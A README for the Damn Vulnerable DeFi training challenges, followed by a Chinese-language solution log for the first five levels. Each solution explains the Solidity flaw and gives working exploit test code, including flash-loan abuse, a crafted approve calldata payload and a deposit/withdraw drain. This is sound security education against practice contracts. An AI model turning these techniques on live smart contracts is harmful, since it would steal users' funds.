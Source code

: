 ![](cover.png)

**A set of challenges to learn offensive security of smart contracts in Ethereum.**

Featuring flash loans, price oracles, governance, NFTs, lending pools, smart contract wallets, timelocks, and more!

## Play

Visit [damnvulnerabledefi.xyz](https://damnvulnerabledefi.xyz)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION.

# 解法紀錄

## 1	Unstoppable
- 目標
讓所有人都不可以執行flashLoan(搞壞他)

- 問題程式
UnstoppableLender.sol的flashLoan
    ```solidity=
    assert(poolBalance == balanceBefore);
    ```
    poolBalance來自於呼叫depositTokens function中才會增加
    balanceBefore則是當下合約的token數量

    所以只要不透過depositTokens
    直接把token打進去合約裡
    就不會改變poolBalance
    但是能改變balanceBefore
    即可以觸發assert

- 前端程式
    ```javascript=
     it('Exploit', async function () {
            /** CODE YOUR EXPLOIT HERE */
            await this.token.transfer(this.pool.address, INITIAL_ATTACKER_TOKEN_BALANCE);

        });
    ```


## 2	Naive receiver
- 目標
receiver的token轉回pool

- 問題程式
    FlashLoanReceiver.sol的receiveEther
    ```solidity=
     uint256 amountToBeRepaid = msg.value + fee;

            require(address(this).balance >= amountToBeRepaid, "Cannot borrow that much");

            _executeActionDuringFlashLoan();

            // Return funds to pool
            pool.sendValue(amountToBeRepaid);
    ```
    最後會轉amountToBeRepaid回pool
    amountToBeRepaid=msg.value + fee;
    fee又等於1 ether (NaiveReceiverLenderPool.sol)

    receiver初始化只有10顆
    所以執行10次flashLoan之後
    全部的資金就沒了

- 前端程式
    ```javascript=
    it('Exploit', async function () {
            /** CODE YOUR EXPLOIT HERE */   
            for(var i=0;i<10;i++){
                await this.pool.flashLoan(this.receiver.address,ethers.utils.parseEther('1'));
            }
        });
    ```
    
    理論上好像執行一次讓msg.value帶9顆也可以
    還沒嘗試

## 3	Truster
- 目標
把Pool所有token轉到attacker

- 問題程式
TrusterLenderPool.sol的flashLoan
    ```solidity=
     function flashLoan(
            uint256 borrowAmount,
            address borrower,
            address target,
            bytes calldata data
        )
            external
            nonReentrant
        {
            uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
            require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

            damnValuableToken.transfer(borrower, borrowAmount);
            target.functionCall(data);

            uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
            require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
        }
    ```
    由於這裡沒有驗證任何東西
    所以只要把target填token合約
    並用data調用approve給attacker
    最後直接用transferFrom把錢領走即可


- 前端程式
    ```javascript=
        it('Exploit', async function () {
            /** CODE YOUR EXPLOIT HERE  */
            await this.pool.connect(attacker).flashLoan(0,attacker.address,this.token.address, "0x095ea7b300000000000000000000000070997970c51812dc3a010c7d01b50e0d17dc79c800000000000000000000000000000000000000000000d3c21bcecceda1000000");
            await this.token.connect(attacker).transferFrom(this.pool.address,attacker.address, TOKENS_IN_POOL);
        });
    ```
    由於找不到ethers中怎麼搞出data
    這裡的data是由solidity生成
    ```solidity=
     abi.encodeWithSignature("approve(address,uint256)", 0x70997970C51812dc3A010C7d01b50e0d17dc79C8,1000000 ether); 
    ```
## 4	Side entrance
- 目標
把Pool所有token轉到attacker

- 問題程式
SideEntranceLenderPool.sol的flashLoan

    ```solidity=
    require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");     
    ```
    最後驗證只看合約的balance
    但同時合約又提供了
    deposit()跟withdraw()

    於是可以透過flashLoan的execute執行自己合約時
    將flashLoan來的token 丟到deposit()
    這樣便可以通過flashLoan的驗證
    但是也存在新的deposit地址(我的合約)
    於是可以在合約中執行withdraw()
    把token提出來並且打給題目要求的attacker

- 合約程式
https://gist.github.com/maiaki927/4a31b8cec904a2c6a827bbf6ba8fb2f8

- 前端程式
```javascript=
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */      
        const test = await ethers.getContractFactory('SideEntranceLenderPool_test',attacker);
        const SideEntranceLenderPool_test = await test.deploy(this.pool.address);
        await SideEntranceLenderPool_test.connect(attacker).flashLoan();
    });
```

## 5	The rewarder

- 目標
讓attacker分到最多token(?)

- 問題程式
    TheRewarderPool.sol的distributeRewards()
    ```solidity=
      if(rewards > 0 && !_hasRetrievedReward(msg.sender)) {
                    rewardToken.mint(msg.sender, rewards);
                    lastRewardTimestamps[msg.sender] = block.timestamp;
                }
    ```
    對於驗證時間_hasRetrievedReward沒有判斷是不是deposit是不過了五天
    所以可以再過了五天後馬上deposit就取得token
    即可以跟上一題一樣flashloan借很多錢丟進去deposit
    然後去call distributeRewards()
    分到token再還flashloan
    轉出給attacker即可

- 合約程式
https://gist.github.com/maiaki927/fc3dbfe855a819d6938596c64a5749f7

- 前端程式
```javascript=
 it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */ 
        await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]); // 5 days
        const t = await ethers.getContractFactory('Test', attacker);
        const test = await t.deploy(this.liquidityToken.address,this.rewarderPool.address,this.flashLoanPool.address,this.rewardToken.address);  
        await test.connect(attacker).flashLoan(ethers.utils.parseEther('1000000'));       
    });
```
